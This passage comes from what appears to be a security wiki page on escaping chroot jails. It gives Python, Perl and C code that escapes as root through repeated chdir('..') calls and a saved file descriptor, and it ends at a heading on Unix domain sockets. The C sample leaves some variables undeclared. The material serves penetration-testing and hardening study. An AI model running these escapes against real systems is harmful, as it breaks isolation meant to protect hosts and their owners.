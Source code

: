 ```
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
```



**Perl**


```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```
```

### Root + Saved fd

> [!WARNING]
> This is similar to the previous case, but in this case the **attacker stores a file descriptor to the current directory** and then **creates the chroot in a new folder**. Finally, as he has **access** to that **FD** **outside** of the chroot, he access it and he **escapes**.


**C: break\_chroot.c**


```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("tmpdir", 0755);
    dir_fd = open(".", O_RDONLY);
    if(chroot("tmpdir")){
        perror("chroot");
    }
    fchdir(dir_fd);
    close(dir_fd);
    for(x = 0; x < 1000; x++) chdir("..");
    chroot(".");
}
```
```

### Root + Fork + UDS (Unix Domain Sockets)

> [!WARNING]
> FD can be passed over Unix Domain Sockets, so:
>
```